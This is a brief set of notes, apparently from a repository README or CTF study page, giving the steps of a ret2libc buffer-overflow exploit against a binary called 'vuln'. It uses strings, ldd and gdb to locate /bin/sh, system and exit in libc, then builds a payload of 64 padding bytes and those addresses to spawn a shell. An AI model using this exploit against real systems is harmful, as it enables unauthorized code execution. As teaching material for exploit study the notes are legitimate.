 # Find offset of /bin/sh

```
 strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"

```
# Find address of /bin/sh

```

ldd vuln to get entry address of libc
bishAddress = libc + offset

```
# Find address of system and exit

```
gdb vuln
b main
r
p system
p exit

```

# Payload

```
paylaod = 64 * 'A' + address_of_system + address_of_exit + address_of_binsh

```
